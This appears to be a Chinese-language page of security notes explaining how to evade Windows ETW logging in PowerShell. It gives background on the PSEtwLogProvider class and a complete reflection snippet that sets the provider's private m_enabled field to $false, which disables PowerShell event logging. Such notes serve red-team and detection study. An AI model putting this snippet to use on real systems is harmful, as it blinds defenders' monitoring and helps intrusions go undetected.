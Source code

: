 
#### 针对 ETW 提供程序的规避技术 (Evasion Techniques Targeting ETW Providers)

##### 1. 通过反射修改 `PSEtwLogProvider` (Modifying `PSEtwLogProvider` via Reflection)

- 背景:
    
    在 PowerShell 会话中，ETW 的主要事件提供者之一是 .NET 程序集 System.Management.Automation.dll 中的 PSEtwLogProvider 类。这个类负责将 PowerShell 的内部操作（如命令执行、脚本块运行）作为 ETW 事件发出。
    
    根据微软文档，“程序集是 .NET 应用程序部署、版本控制、重用、激活作用域和安全权限的基本单元。”
    
    在一个 PowerShell 会话中，大多数 .NET 程序集（包括 System.Management.Automation.dll）在启动时会以与当前用户相同的权限上下文加载。如果当前用户具有足够的权限（例如，会话本身是以管理员身份运行，或者即使是普通用户，也可以修改自身进程空间内的 .NET 对象），攻击者就可以利用 PowerShell 反射 (Reflection) 机制来访问和修改 PSEtwLogProvider 实例内部的字段和属性，从而禁用其日志记录功能。
    
    根据 O'Reilly 的描述（意译）：“反射允许你查看程序集的内部并了解其特性。... .NET 程序集是自我描述的，至少在正确询问时是这样。”
    
- 目标字段:
    
    PSEtwLogProvider 实例（或其基类 System.Diagnostics.Eventing.EventProvider 的实例）内部通常有一个名为 m_enabled 的私有实例字段。如果这个字段被设置为 $false (或在某些实现中设为 $null 可能导致类似效果)，该提供者实例就会停止发送事件。
    
- **PowerShell 反射实现步骤**:
    
    1. 获取 `PSEtwLogProvider` 的类型对象。
    2. 获取 `PSEtwLogProvider` 类型对象中的静态字段 `etwProvider` (它通常持有一个 `System.Diagnostics.Eventing.EventProvider` 的实例)。
    3. 获取步骤 2 中得到的 `etwProvider` 实例的 `m_enabled` 实例字段 (该字段定义在基类 `EventProvider` 中)。
    4. 将 `m_enabled` 字段的值设置为 `$false`。
- **PowerShell 代码示例**:
    
    PowerShell
    
    ```
    # 1. 获取 PSEtwLogProvider 的类型对象
    $LogProviderType = [System.Management.Automation.PSEtwLogProvider]; # 直接使用类型名称
    # 或者，如果需要从当前加载的程序集中动态获取:
    # $LogProviderType = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider'); # 原文方式，更通用
    
    # 2. 获取静态字段 etwProvider 的值 (这是一个 EventProvider 实例)
    $EtwProviderInstance = $LogProviderType.GetField('etwProvider','NonPublic,Static').GetValue($null);
    
    # 3. 如果 EtwProviderInstance 不为 $null，则修改其实例字段 m_enabled
    if ($EtwProviderInstance) {
        $EventProviderType = [System.Diagnostics.Eventing.EventProvider];
        $EnabledFieldInfo = $EventProviderType.GetField('m_enabled','NonPublic,Instance');
        if ($EnabledFieldInfo) {
            $EnabledFieldInfo.SetValue($EtwProviderInstance, $false); # 设置为 $false 来禁用
            Write-Host "PSEtwLogProvider m_enabled field patched."
        } else {
            Write-Warning "Could not find m_enabled field in EventProvider."
        }
    } else {
        Write-Warning "Could not get EtwProviderInstance."
    }
    ```
    